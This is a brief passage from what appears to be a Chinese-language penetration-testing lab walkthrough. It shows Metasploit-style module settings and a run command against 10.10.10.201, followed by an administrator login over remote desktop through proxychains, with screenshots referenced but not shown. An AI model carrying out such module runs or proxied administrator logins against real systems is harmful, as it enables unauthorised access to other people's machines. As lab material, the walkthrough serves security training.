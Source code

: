 set rhosts 10.10.10.201 

set lport 456 

run

![img](assets/1660661758223-88d8f9bd-21e5-4d09-98d7-f793c4a597b6.png)

管理员账号登录远程桌面连接PC

proxychains rdesktop 10.10.10.201:3389![img](assets/1660661824290-97155eab-28a3-4df8-8481-583207d6f964.png)

![img](assets/1660663973682-9519b196-9e62-41a6-a85f-c161c5471946.png)
